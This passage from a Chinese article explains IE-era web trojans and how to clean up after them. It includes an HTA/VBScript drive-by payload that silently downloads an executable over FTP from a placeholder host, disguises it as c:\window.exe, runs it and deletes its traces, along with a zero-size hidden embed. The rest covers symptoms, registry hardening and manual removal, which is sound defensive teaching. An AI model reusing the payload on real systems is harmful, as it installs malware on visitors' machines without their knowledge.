常见的木马运用格式，高度和宽度为0的一个框架网页，我想你根本看不到它。除非你的浏览器不支持框架！

##### (3) iframe 漏洞的利用三

```
html
<object type="text/x-scriptlet" width="0" height="0" data="test.html"></object>
```

又是一个框架引用的新方式，对 type="text/x-scriptlet" 调整后，就可以实现和 eml 格式文件同样的效果，更是防不胜防。

##### 4. Microsoft Internet Explorer 浏览器弹出窗口 Object 类型验证漏洞的利用

精华代码：

```
html
<object data="run.asp"></object>
----- code cut start for run.asp -----
<HTA:APPLICATION caption="no" border="none" showInTaskBar="no" windowState="minimize">
<object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object>
<script language="VBScript">
Dim fs, t
Set fs = CreateObject("Scripting.FileSystemObject")
'// 注册组件FSO
Set t = fs.CreateTextFile("ftp.txt", True)
t.WriteLine("userdown")
t.WriteLine("username")
t.WriteLine("usepassword")
t.WriteLine("get ie.exe c:\window.exe") //FTP下载一个文件，并进行伪装
t.WriteLine("close")
t.WriteLine("quit")
t.Close
wsh.Run "ftp -n -s:ftp.txt URL.url.com", 0, true
wsh.Run "c:\window.exe" //下载完毕后就运行
fs.DeleteFile "ftp.txt", true //下载列表文件用完就删
window.close '//窗口关闭，所有任务结束
</script>
----- code cut end for run.asp -----
```

> [作者注] 我想，这个方法是现行的大部分木马网页中使用频率最高的一个。效果绝对是“最好”的。不管是你IE5.0，还是IE6.0，还是+SP1补丁。他们都敢大声说：IE6.0+SP1也不是万能的。

#### 小结：

几乎所有类型的网页病毒都有一个特性，就是再生。让我们从注册表中的启动项开始分析。注册表中管理启动的主键键值分别为：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
```

确认主键下没有加载任何分键值。另外，在启动配置器里的autoexec.bat、win.ini,system.ini以及在Windows 9x下的winstart.ini文件，其中的存在LOAD=键的，它的值是空，不是空格，只有‘=’号。Autoexec.bat没有加载任何程序，在「开始」菜单\程序\启动文件夹下不存在任何程序，那样才能有效地去掉一个病毒的再生功能。不叫它开机运行，或者不再运行，那我们就可以把它从计算机上请出去。

### (三) 网页病毒和网页木马的运行效果分析

1. 电脑中的默认主页会被无故更改，并且IE工具栏内的修改功能被屏蔽掉。
2. 在电脑桌面上无故出现陌生网站的链接，无论怎么删除，每次开机都依旧会出现，如果单击鼠标右键，出现的工具栏中也会有大量陌生网站的链接。
3. 开机后，无法进入DOS实模式；仅对Windows 9X系统有效。
4. 电脑桌面及桌面上的图标被隐藏。
5. 注册表编辑器被告知“已锁定”，从而无法修改注册表。
6. 上网之前，系统一切正常，下网之后系统就会出现异常情况，如系统盘丢失、硬盘遭到格式化等，查杀病毒后仍无济于事。
7. 上陌生网站后，出现提示框“您已经被XX病毒攻击”，之后系统出现异常。
8. 登录站点后，发现一个窗口迅速打开后又消失，自己的计算机系统文件夹内多了几个未知的好像是系统文件的新文件。
9. 发现系统的进程中多了几个未知进程，而且杀不掉，重启后又会出现。
10. 自己的计算机CPU利用率一直高居100%，好像是在运行什么占用内存的东西。
11. 登录某站点后，杀毒监控软件报警，并删除病毒文件，位置在IE的缓冲区。重新启动计算机后发现自己的IE被改掉了。而且发现第八、第九、第十种的现象。
12. 发现中毒后，反复杀毒，病毒反复复发，根本没办法清理干净。尤其是IE的默认页。杀毒后修复完毕，但重新启动后又出现问题。
13. 会不定时地弹出广告。
14. 自己的私有账号无故丢失。

### 三、网页病毒、网页木马的基本预防手段

1. 要避免被网页恶意代码感染，关键是不要轻易去一些自己并不十分知晓的站点，尤其是一些看上去非常美丽诱人的网址更不要轻易进入，否则往往不经易间就会误入网页代码的圈套。
2. 由于该类网页是含有有害代码的ActiveX网页文件，因此在IE设置中将ActiveX插件和控件、Java脚本等全部禁止就可以避免中招。

具体方法是：在IE窗口中点击“工具”→“Internet选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有ActiveX插件和控件以及Java相关全部选择“禁用”即可。不过，这样做在以后的网页浏览过程中可能会造成一些正常使用ActiveX的网站无法浏览。

3. 对于 Windows 98用户，请打开 C:\WINDOWS\JAVA\Packages\CVLV1NBB.ZIP，把其中的“ActiveXComponent.class”删掉；对于 WindowsMe 用户，请打开 C:\WINDOWS\JAVA\Packages\5NZVFPF1.ZIP，把其中的“ActiveXComponent.class”删掉。请放心，删除这个组件不会影响到你正常浏览网页的。
4. 对 Win2000 用户，还可以通过在 Windows 2000下把服务里面的远程注册表操作服务“Remote Registry Service”禁用，来对付该类网页。具体方法是：点击“管理工具→服务→Remote Registry Service(允许远程注册表操作)”, 将这一项禁用即可。
5. 升级你的 IE 为 6.0 版本并装上所有的 SP 以及追加的几个小补丁,可以有效防范上面这些症状。
6. 下载微软最新的 Microsoft Windows Script 5.6。
7. 安装病毒防火墙, 一般的杀毒软件都自带打开网页监控和脚本监控。
8. 虽然经过上述的工作修改回了标题和默认连接首页, 但如果以后某一天又不小心进入这类网站就又得要麻烦了。这时你可以在 IE 浏览器中做一些设置以使之永远不能进入这类站点, 具体为: 打开 IE 属性, 点击 “工具” → “Internet 选项” → “安全” → “受限站点”, 一定要将 “安全级别” 定为 “高”, 再点击 “站点”, 在 “将 Web 站点添加到区域中”添加自己不想去的网站网址, 再点击“添加”, 然后点击 “应用” 和 “确定” 即可正常浏览网页了。
9. 在注册表:

```
[HKEY-LOCAL-MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility]
下为
[Active Setup controls]创建一个基于 CLSID 的新建{6E449683-C509-11CF-AAFA-00AA00B6015C}在新建下创建 REG_DWORD 类型的值:
[Compatibility Flags 0x00000400]
```

可以间接地防止网页木马问题。

10. 请经常升级你的杀毒软件病毒库, 让它们能及时地查出藏在你计算机内的病毒残体, 经常性地做全机的扫描检查。
11. 推荐安装: IE6.0.2800.1106 + SP1 + 4 个 IE 专项补丁。

### 四、网页病毒、网页木马的清理和手工清理

#### （一）网页病毒、网页木马的一般清理

在病毒防治和查杀的第一选择, 就是杀毒软件。

不定期地升级你的病毒库, 关注你所用的操作系统和浏览器的漏洞信息以及相关补丁的安装。当你进入一个恶意站点后注册表被改时, 首先要做的不不是盲目地去找杀毒工具, 而是确认一下你自己所中的毒是否只是简单的修改注册表, 如果是木马的话, 你还在网络上飞来飞去，想想能不能不丢东西么? 这就是为什么在文章的开头部分我们花了一部分篇幅进行恶意网页机理的介绍和说明。为的就是叫大家从道理上明白, 所谓的恶意网页是通过什么样的途径, 运行了什么样的代码执行出了什么样的效果。当然, 你没必要去理解代码的全部含义, 至少在查看一个页面源码时发现它, 也知道它是做什么, 而不去访问此页。再提一点, 这样做并非是让每个人都去理解, 去记忆。在这里我们也采用 “让少数人先富起来”的政策。这样, 那些 GG 才能在 MM 面前显示自己的 “才能”。开个玩笑, 转入正题, 如何一般性地清理病毒?

1. 到 “网上助手” 去清理。 地址是: http://magic.3721.com。
2. 使用杀毒软件杀毒。 用你自己的杀毒软件来清除, 记得要先升级。
3. 使用一些专杀工具查杀。 到一些杀毒软件站点去下载杀毒工具吧。
4. 到本站的专业 IE 维护, 是针对现在几个流行的网页病毒、网页木马站点修改注册表键值精心制作的。 地址是: http://ie.e3i5.net

> [作者注]请在使用网页 IE 修复时, 最好进行两次修复, 修复器采用的是_D11插件+Javascript+ActiveX 制作的, 对系统的键值有检测功能, 如果注册表项没有更改, 修复系统会自动退出。

#### （二）网页病毒、网页木马的一般手工清理

一般在网络不通或者不能上网的情况, 可能会需要修改回注册表。这时以上的方法可能帮不上你任何的忙, 怎么办? 尝试下面推荐的办法, 手工清理。

##### 1. 清除每次开机时自动弹出的网页

其实清除每次开机时自动弹出的网页方法并不难，只要你记住地址栏里出现的网址，然后打开注册表编辑器（方法是在点击“开始”菜单，之后点击“运行”，在运行框中输入 regedit 命令进入注册表编辑器），分别定位到：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 和 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce` 下，看看在该子项下是否有一个以这个网址为值的值项，如果有的话，就将其删除，之后重新启动计算机。这样，在下一次开机的时候就不会再有网页弹出来了。不过网页恶意代码的编写者有时也是非常的狡猾，他会在注册表的不同键值中多处设有这个值项，这样上面提的方法也未必能完全解决问题。遇到这种情况，你可以在注册表编辑器的选项菜单里选择“编辑”→“查找”，在“查找”对话框内输入开机时自动打开的网址，然后点击“查找下一个”，将查找到的值项删除。另外，如果你是使用 Windows 98 的用户，可在“开始”菜单中的“运行”对话框内输入“msconfig”，点击“确定”，打开“系统配置实用程序”并打开“启动”选项卡，检查其中是否有非常可疑的启动项，如果有的话请将其禁用（在程序前的打上勾），然后重启机器就可以了。如果你所使用的是 Windows NT/2000 的用户，可以把 Windows 98 下的“系统配置实用程序”复制过来并运行进行查找清除。

##### 2. IE 标题栏被修改

具体说来受到更改的注册表项目为：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main\Window Title`
`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Window Title`

解决办法：

- 1. 在 Windows 启动后，点击“开始”→“运行”菜单项，在“打开”栏中键入 regedit，然后按“确定”键；
- 2. 展开注册表到：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main` 下，在右半部分窗口中找到串值“Window Title”，将该串值删除即可，或将 Window Title 的键值改为“IE 浏览器”等自己喜欢的名字。
- 3. 同理，展开注册表到：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`，然后按 (2) 中所述方法处理。
- 4. 退出注册表编辑器，重新启动计算机，运行 IE，你会发现困扰你的问题被解决了。

##### 3. IE 分级审查密码的清除

- 1. 打开“开始”菜单，单击“运行”，在运行框中输入 regedit 命令（这是打开注册表编辑器的命令）。
- 2. 在注册表编辑器中有 5 个主要的键值，请您按照下面顺序一步一步打开下面的文件（在所指的文件夹上双击或单击在文件夹前面的十字符号）。
- 3. 具体顺序是：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Ratings`。在 Ratings 文件夹后会看到在右面的窗口中有 key 键值，直接在这个键上点右键，之后选“删除”，然后关闭注册表编辑器即可。

下面的这个图是最后一个文件夹及其右面的提示，只要将上面显示的 key 键删除也就可以清除 IE 分级审查的密码了。如图 1 所示。

##### 4. 篡改 IE 的默认页

具体说就是以下注册表项被修改：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main\Default_Page_URL`

“Default_Page_URL”这个子键的键值即起始页的默认页。



解决办法：
运行注册表编辑器，然后展开上述子键，将“Default_Page_URL”子键键值中的那些篡改网站的网址改掉就行了，或者将其设置为 IE 的默认值。

##### 5. 修复被锁定的注册表

可以自己动手制作一个解除注册表锁定的工具，就是用记事本编辑一个任意名字的 .reg 文件，比如 recover.reg，内容如下：

```
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

要特别注意的是：如果用这个方法制作解除注册表锁定的工具，一定要严格按照上面的书写格式进行，不能遗漏更不能修改（其实你只需将上述内容“复制”、“粘贴”到你机器记事本中即可）；完成上述工作后，点击记事本文件菜单中的“另存为”项，文件名可以随意，但文件扩展名必须为 .reg（切记），然后点击“保存”。这样一个注册表解锁工具就制作完成了，之后只须双击生成的工具图标，将会提示你是否将这个信息添加进注册表，你要点击“是”，随后系统提示信息已成功输入注册表，再点击“确定”即可将注册表解锁了。

## 6. 修改IE浏览器缺省主页，并且锁定设置项，禁止用户更改

主要是修改了注册表中IE设置的下面这些键值（DWORD值为1时为不可选）：

```
HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel
"Settings"=dword:1
HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel
"Links"=dword:1
HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel
"SecAddSites"=dword:1
```

解决办法：上面这些 DWORD 值改为“0”即可恢复功能。

## 7. IE的默认首页灰色按钮不可选

这是由于注册表 `HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下的 DWORD 值“homepage”的键值被修改的缘故。原来的键值为“0”，被修改后为“1”（即为灰色不可选状态）。

解决办法：将“homepage”的键值改为“0”即可。

## 8. IE右键菜单被修改

受到修改的注册表项目为：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`。在该项下被新建了网页的广告信息，并由此在 IE 右键菜单中出现。

解决办法：
打开注册表编辑器，找到：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`
删除相关的广告条文即可，注意不要把下载软件 FlashGet 和 Netants 也删除掉，这两个可是“正常”的，除非你不想在 IE 的右键菜单中见到它们。

## 9. IE默认搜索引擎被修改

出现这种现象的原因是以以下注册表被修改：
`HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Search\CustomizeSearch`
`HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Search\SearchAssistant`

解决办法：
运行注册表编辑器，依次展开上述子键，将“CustomizeSearch”和“SearchAssistant”的键值改为某个搜索引擎的网址即可。

## 10. 查看“源文件”菜单被禁用

恶意网页修改了注册表，具体的位置为：

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer`

在此处建立子键“Restrictions”，然后在“Restrictions”下面建立两个 DWORD 值：“NoViewSource”和“NoBrowserContextMenu”，并为这两个 DWORD 值赋值为“1”。

在注册表 `HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下，将两个 DWORD 值：“NoViewSource”和“NoBrowserContextMenu”的键值都改为了“1”。 通过上面这些键值的修改就达到了在IE中使鼠标右键失效，使“查看”菜单中的“源文件”被禁用的目的。

解决办法：
将以下内容另存为后缀名为 .reg 的注册表文件，比如说 unlock.reg，双击 unlock.reg 导入注册表，不用重启电脑，重新运行 IE 就会发现 IE 的功能恢复正常了。

```
REGEDIT4
HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions
"NoViewSource"=dword:00000000
"NoBrowserContextMenu"=dword:00000000
HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Restrictions
"NoViewSource"=dword:00000000
"NoBrowserContextMenu"=dword:00000000
```

##### 11. 系统启动时弹出对话框

受到更改的注册表项目为：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`

在其下被建立了字符串“LegalNoticeCaption”和“LegalNoticeText”，其中“LegalNoticeCaption”是提示框的标题，“LegalNoticeText”是提示框的文本内容。由于它们的存在，就使得我们每次登录到 Windows 桌面前都出现一个提示窗口，显示那些网页的广告信息。

解决办法：
打开注册表编辑器，找到：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`

这一个主键，然后在右边窗口中找到“LegalNoticeCaption”和“LegalNoticeText”这两个字符串，删除这两个字符串就可以解决在登录时出现提示框的现象了。

## 12. IE默认连接首页被修改

受到更改的注册表项目为：

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main\Start Page`
- `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page`

通过修改“Start Page”的键值，来达到修改浏览器IE默认连接首页的目的，如浏览“万花谷”就会将你的IE默认连接首页修改为http://url.url.com，即便是出于给自己的主页做广告的目的，也显得太霸道了一些，这也是这类网页惹人厌恶的原因。

解决办法：

- 1. 在 Windows 启动后，点击“开始”→“运行”菜单项，在“打开”栏中键入 regedit，然后按“确定”键。
- 2. 展开注册表到：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main` 下，在右半部分窗口中找到串值“Start Page”双击，将Start Page的键值改为“about:blank”即可。
- 3. 同理，展开注册表到：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`

在右半部分窗口中找到串值“Start Page”，然后按 (2) 中所述方法处理。

- 4. 退出注册表编辑器，重新启动计算机，一切 OK 了。

特殊例子：当 IE 的起始页变成了某些网址后，就算你通过选项设置修改好了，重启以后又会变成它们的网址啦，十分的难缠。其实它们是在你机器里加了一个自运行程序，它会在系统启动时将你的 IE 起始页设成它们的网站。

解决办法：运行注册表编辑器 regedit.exe，依次展开：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 主键，然后将其下的 registry.exe 子键删除，再删除自运行程序 c:\Program Files\registry.exe，最后从 IE 选项中重新设置起始页。

##### 13. IE 中鼠标右键失效

解决办法：

- 1. 右键菜单被修改。打开注册表编辑器，找到 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`，删除相关的广告条文。
- 2. 右键功能失效。打开注册表编辑器，展开到：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions`，将其 DWORD 值“NoBrowserContextMenu”的值改为 0。

## (三) 未知网页病毒、网页木马的高级手工清理

我想，文章到这里应该算是高潮了吧，我们所遇到任何棘手的病毒都是未知的，正式杀毒软件管不了的，也没有专杀工具的干涉，一般的 IE 修复也是无能为力，那么怎么办？只有靠自己动手将病毒或木马请出你的计算机。动手前还是要做一件事。就是确认一下，是不是真的染毒了，如果是类 QQ 病毒那样有明显征兆的你当然可以直接进行以下的操作，如果没呢？就要养成一个谨慎的态度。当发现计算机速度这几天突然很慢，你的文件夹或是文件多出几个，进程里无缘无故多出几个新的进程文件，计算机 CPU 利用率总是高居不下，一打开某种类型的文件就出错，或者是无缘无故的死机、蓝屏，那么你该注意了，你的爱机可能已经中毒了。开始你的手工查杀工作吧（这时最好是先用升级后杀毒软件查一次，如果没有任何发现，再进行以下操作）。

情况一，你是明确知道你的计算机已经中毒了，比如说是 QQ 上出现自动发出信息的问题。但你所发的网址并非是以前文章上介绍过的地址，那么这个站点感染的病毒可能是另外一种植入方式，如加载的文件不同、启动方式也不同等等。既然已经中毒了，就不怕什么了，再次深入虎穴吧。但某种意义上的深入虎穴，为的是得到这个站点网页的病毒原码，如何得到，我想不用我说大家也清楚。现在很多站点都提供原代码查看的网页，用它就可以完全实现不用访问该页而提取到原码（不要太天真哦，用这个办法那个页面也会到你 IE 缓存内）。如果实在找不到，那你可以到 http://www.e3i5.com/bbs/ 找我，我给你临时做一个查看页。为什么要查看原码，主要是看一下，网页的运行机制是怎样的？又回到文章一开始的话题了，为什么要事先介绍网页病毒、网页木马的常识和运行机理上。学以致用的道理大家比我还清楚。分析出网页病毒、木马的机理再来进行本机的清理工具将是一个很好的前提条件。

情况二，你根本不知道你是不是中毒了，怎么办？要从计算机最基本的进程表开始查。这个一般是查出问题的关键之处。一般都要使用第三方软件来查看，如 windows 优化大师的进程管理器、柳叶擦眼等。查看进程表，那些标识为系统文件的进程你可以不看，而那些非系统进程你要注意了。像一些仿系统文件的进程则是我们重点关心的对象，发现即禁止掉，然后到相应的路径改名（由于是非系统进程，终止掉它到下次重新启动也不会影响计算机的正常运行）。然后，查看该文件的属性，尤其是查看“创建时间”。如果和你的中毒时间相仿或是差不多远，那就说明这个文件十之八九就为病毒文件。一般的系统文件创建时间都是很早哦，大约要比当前时间早一到两年，甚至三年五年的。按如此办法就可以逐一地找出可疑的文件，然后按以下的方法进行病毒的清理。

##### 1. 准备工作

下载进程管理软件柳叶擦眼，没有的请到以下地址下载：

http://www.e3i5.com/soft/SoftView.Asp?SoftID=361

这里推荐使用“柳叶擦眼”因为它是个绿色软件，不需要安装，下载解压后该怎么用就怎么用，方便。

进行手工杀毒的准备工作，先关闭你能关闭的所有软件，包括杀毒软件、防火墙、宽带连接等等一切能生成进程的东西。只保留必要的系统进程，这样会给以后的操作带来很多方便。

### 2. 查看系统进程除了显示系统文件外，将所有无关的进程杀掉

如查看进程表定位文件。intneter.exe c:\windows\system\intneter.exe 这里的 intneter.exe 就是伪 intnater.exe 输入法进程加载到系统的非法进程文件，我们应马上结束这个进程，并删除对应的文件，注意一些文件是隐藏的，在查找时应用“文件夹选项”打开对隐藏文件的查看。

如果不知道相关的进程，可以这样尝试：

- 将进程软件下载后，断网，关闭运行的软件，打开进程管理软件，软件显示的系统进程你不要理，如果你不知道你以前正常的软件进程名是什么的话，将所有非系统的进程全部杀死（注意除了进程查看软件之外的哦），并记下它们的文件路径。由于不知道是否是非法文件暂时改名，也记录下来，以便修改。

##### 3. 修改注册表

开始 —> 运行 —> REGEDIT —> 编辑 —> 查找
查找：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
```

`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]` 主键下所有的键都为空，如果不为空，全部清理为空，使系统启动不加载任何程序（一般来说，驱动程序除了一些显示驱动会保留在启动项里，其他重要的很少了）。如果你知道常用软件所在 RUN 以及相关键下的值，当然更好，你就可以选择性地进行清理，这对以后的整理工作会更方便些。

修改以下注册表关联项目：

```
[HKEY_CLASSES_ROOT\chm.file\shell\open\command "(默认)" "%windir%\hh.exe" %1 ]
[HKEY_CLASSES_ROOT\exefile\shell\open\command "(默认)" "%1" %* ]
[HKEY_CLASSES_ROOT\inifile\shell\open\command "(默认)" %windir%\NOTEPAD.EXE %1 ]
[HKEY_CLASSES_ROOT\regfile\shell\open\command "(默认)" regedit.exe "%1" ]
[HKEY_CLASSES_ROOT\scrfile\shell\open\command "(默认)" "%1" /S ]
[HKEY_CLASSES_ROOT\txtfile\shell\open\command "(默认)" %windir%\NOTEPAD.EXE %1 ]
```

##### 4. 清理启动项配置文件

进入配置管理，除 Windows 2000 以外都为 MSCONFIG。

开始 —> 运行 —> MSCONFIG

Windows 9x 用户注意：将启动配置里所有带 *.hta 的去掉。HTA 的特性就是隐藏掉窗体，然后一段时间就弹出网页。

进入：system.ini
修改 [BOOT]
shell=Explorer.exe // 注意：后面没东西了，再有什么，改成和前面一样的。

进入：WIN.INI
修改 [WINDOWS]
// 注意：load 键后面除了 = 号什么也没有。空格都不行。
LOAD=
NULLPORT=NONE

修改：autoexec.bat 内容为空。
Windows 2000 直接进入启动编辑器。修改以上 3 个文件。
记得这 3 个文件里没有任何为空的指令命令，有就删除。
任何值如果为空的话就是什么都没有，甚至于空格都不存在。

##### 5. 清理注册表垃圾信息
开始 - > 运行 - > REGEDIT - > 编辑 -> 查找
将开机运行的那个站点进行搜索，找到即删除。

##### 6. 清理缓存（这点最重要）
一定要把 IE 缓冲区清理干净，以及 TEMP 文件夹的临时文件和垃圾文件清理干净。
好了，将记录的路径的文件保存，然后重新启动计算机。

##### 7. 清理校验
- (1) 启动计算机后，再次打开柳叶擦眼，查看进程，看除了系统进程是否还有其他进程存在。如果没有，说明手工清理完成。如果还发现异常的进程，重复以上步骤。
- (2) 确认杀毒完成后，你开始逐一地启动各类软件，检查你所改名的文件是否会影响到软件运行。如果没有异常发生，请删除或放入你杀毒软件的隔离区（为什么要选择后者，是因为毕竟我们还不清楚这是不是病毒文件，即使是在隔离区的文件系统是不会再次运行的）。
注意：做这项工作时你一定要想起你在杀进程时保存的那个进程路径列表文件，依照上面的文件逐一地进行检查。
- (3) 逐一恢复了所有的进程后，重新启动计算机，再做最后一次检测，以防万一。
- (4) 到此为止，你已经完成了你的全部手工清理过程，病毒已经被请出你的计算机。

### 五、总结
不论怎么说，自己亲自清理过网页病毒后，会觉得网页病毒其实也并非那样可怕，个人并不推荐计算机出了问题就格盘、重装，这并非是一个解决问题的途径。建议大家首先认识恶意网页的代码机理，从根本上来解决问题。但这里更强调的是动手能力。当然，也并非完全抛弃杀毒和防毒软件。俗话说得好：事在人为。

通篇文章涉及到网页病毒代码分析、中毒机理分析、预防手段，以及一般的查杀、手工查杀 4 大部分的内容。我尽量做到详细地将问题以最简单易懂的方式说明。归结到一点就是，希望大家能从网页病毒的本质出发来面对它、解决它。仔细想想现在包含式病毒站点越来越多，而它们利用的也仅仅是代码的威力以及系统或是浏览器上漏洞。另外，我还想说明的一点就是：不要完全依靠杀毒软件，现在国内的一些杀毒软件做得并不完善，杀毒不彻底，很容易残留一些病毒在计算机内，当你一不小心运行了它，病毒又死灰复燃了。还有，就是一部分杀毒软件虽然能及时地预警，但在杀毒上却稍逊一筹。杀掉了缓存内的病毒原体，却留下了病毒自动生成的新文件。这也似乎成了国内软件的一个通病，功能有，但不强大。面对着如此局面，除了自己解决问题，还能有什么办法？相信自己，遇到问题自己动手解决。

于黑客来说，他们是如何利用 IE 实现攻击目的的呢？本文就给大家总结一下 IE 下黑客常用的攻击手法。

## 5. IE 黑客常见攻击方法揭秘
文/奇奇

